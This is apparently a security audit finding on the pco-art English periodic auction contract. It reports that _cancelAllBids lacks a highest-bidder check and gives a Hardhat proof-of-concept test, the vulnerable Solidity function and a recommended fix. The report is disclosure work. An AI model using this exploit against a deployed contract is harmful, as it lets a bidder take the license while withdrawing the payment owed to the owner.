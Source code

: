 Macho Daffodil Gorilla

high

# The highest bidder can cancel his bid, withdraw his collateral and still obtain ownership of the license

## Summary

When cancelling all bids it is not checked whether the bidder is the highest bidder. Therefore, he can make the highest bid, then cancel it, withdraw the collateral and still obtain ownership of the license. 

## Vulnerability Detail

[`EnglishPeriodicAuctionInternal::_cancelAllBids()`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416) function does not check whether the calling bidder is the highest bidder. As is done in [`EnglishPeriodicAuctionInternal::_cancelBid()`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L378). 

# PoC

Please paste the Proof of Concept at the end of the `EnglishPeriodicAuction` test so that you can run it using 'yarn run hardhat test' 

```typescript
describe.only('PoC', function () {
    it('Highest bidder cancels his bid and withdraws his collateral, but his bid remains the highest and gain the ownership of the license', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      // Check initial availableCollateral == 0
      expect(await instance.availableCollateral(owner.address)).to.be.equal(
        0,
      );

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      const bidAmount2 = ethers.utils.parseEther('1.5');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);

      // Bidder1 bids 1.1
      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      // Bidder2 bids 1.5 (highest bid)
      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount2, { value: collateralAmount2 });


      const oldBidder2Balance = await ethers.provider.getBalance(
        bidder2.address,
      );

      // Bidder2 (highest bidder) tries to cancel all bids - he should not be able to
      const res1 = await instance
        .connect(bidder2)
        .cancelAllBidsAndWithdrawCollateral(0);
      const receipt1 = await res1.wait();
      const gasFee1 = receipt1.gasUsed.mul(res1.gasPrice);

      const newBidder2Balance = await ethers.provider.getBalance(
        bidder2.address,
      );

      // Expect bidder2 balance to increase by collateralAmount2 because he actually cancel the bid
      expect(newBidder2Balance.add(gasFee1).sub(oldBidder2Balance)).to.be.equal(
        collateralAmount2,
      );

      await time.increase(100);
      await instance.connect(bidder2).closeAuction(0);

      // Owner has the collateral of the highest bidder (bidder2), who actually canceled the bid and withdrew the collateral
      expect(await instance.availableCollateral(owner.address)).to.be.equal(
        bidAmount2,
      );

      await instance
        .connect(bidder1)
        .cancelBid(0, 0);

      // Bidder1 has his collateral available because he was outbid
      expect(await instance.availableCollateral(bidder1.address)).to.be.equal(
        collateralAmount1,
      );

      // As we can see, Bidder2 who had withdrawn his collateral, still has the highest bid
      const highestBid = await instance['highestBid(uint256,uint256)'](0, 0);

      expect(highestBid.bidder).to.be.equal(bidder2.address);
      expect(highestBid.bidAmount).to.be.equal(bidAmount2);
      expect(highestBid.feeAmount).to.be.equal(feeAmount2);
      expect(highestBid.collateralAmount).to.be.equal(0);

      // Bidder2 is the new Steward
      expect(await licenseMock.ownerOf(0)).to.be.equal(bidder2.address);

    });
  });
```


## Impact

The highest bidder can withdraw his collateral but still obtain ownership of the license

## Code Snippet

[`EnglishPeriodicAuctionInternal::_cancelAllBids()`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416)

```solidity
/**
     * @notice Cancel bids for all rounds
     */
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```

## Tool used

Manual Review

## Recommendation

[`EnglishPeriodicAuctionInternal::_cancelAllBids()`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416)` should check whether the caller is the current highest bidder.